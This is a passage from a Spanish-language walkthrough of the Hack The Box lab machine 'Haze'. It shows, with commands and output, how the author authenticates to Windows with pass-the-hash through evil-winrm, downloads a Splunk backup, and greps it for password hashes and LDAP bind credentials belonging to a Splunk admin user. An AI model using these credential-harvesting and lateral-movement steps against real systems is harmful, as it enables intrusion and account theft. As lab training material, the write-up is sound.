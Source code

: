 Esto me permite autenticarme directamente como `edward.martin` mediante [pass the hash](https://www.thehacker.recipes/ad/movement/ntlm/pth).

```terminal
/home/kali/Documents/htb/machines/haze:-$ evil-winrm -i 10.10.11.61 -u 'edward.martin' -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af'

*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin

*Evil-WinRM* PS C:\Users\edward.martin\Documents> type ../Desktop/user.txt
```

---
### Unsecured Credentials

Durante la sesión remota con la cuenta `edward.martin`, localicé un archivo comprimido que contenía un respaldo del entorno Splunk. El contenido se encontraba ubicado en `C:\Backups\Splunk\` <a id="insecure-storage-of-sensitive-information" href="#cwe-922" class="cwe-ref">(CWE-922)</a>.

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Documents> download C:\Backups\Splunk\splunk_backup_2024-08-06.zip
```

Descomprimí el archivo y para encontrar contenido útil, empleé una expresión regular que permitiera detectar formatos comunes de hashes.

```terminal
/home/kali/Documents/htb/machines/haze:-$ grep -rP '\$[0-9]\$\S{15,}' Splunk/
Splunk/etc/system/README/user-seed.conf.example:HASHED_PASSWORD = $6$TOs.jXjSRTCsfPsw$2St.t9lH9fpXd9mCEmCizWbb67gMFfBIJU37QF8wsHKSGud1QNMCuUdWkD8IFSgCZr5.W6zkjmNACGhGafQZj1
Splunk/etc/system/README/inputs.conf.example:token = $7$ifQTPTzHD/BA8VgKvVcgO1KQAtr3N1C8S/1uK3nAKIE9dd9e9g==
Splunk/etc/system/README/outputs.conf.example:token=$1$/fRSBT+2APNAyCB7tlcgOyLnAtqAQFC8NI4TGA2wX4JHfN5d9g==
Splunk/etc/passwd::admin:$6$8FRibWS3pDNoVWHU$vTW2NYea7GiZoN0nE6asP6xQsec44MlcK2ZehY5RC4xeTAz4kVVcbCkQ9xBI2c7A8VPmajczPOBjcVgccXbr9/::Administrator:admin:changeme@example.com:::19934
grep: Splunk/var/lib/splunk/_introspection/db/db_1722472316_1722471805_2/1722472316-1722471805-7069930062775889648.tsidx: binary file matches
Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:pass4SymmKey = $7$u538ChVu1V7V9pXEWterpsj8mxzvVORn8UdnesMP0CHaarB03fSbow==
Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:sslPassword = $7$C4l4wOYleflCKJRL9l/lBJJQEBeO16syuwmsDCwft11h7QPjPH8Bog==
Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
```

Como sucedió anteriormente, uno de los archivos más relevantes resultó ser `authentication.conf`, el cual contenía credenciales LDAP cifradas para `alexander.green`. Este mismo usuario ya había sido identificado en BloodHound como miembro del grupo `Splunk_Admins`, el cual suele tener privilegios elevados en la consola web de administración de Splunk.

```terminal
sed -n '14p;15p;19p' Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
```
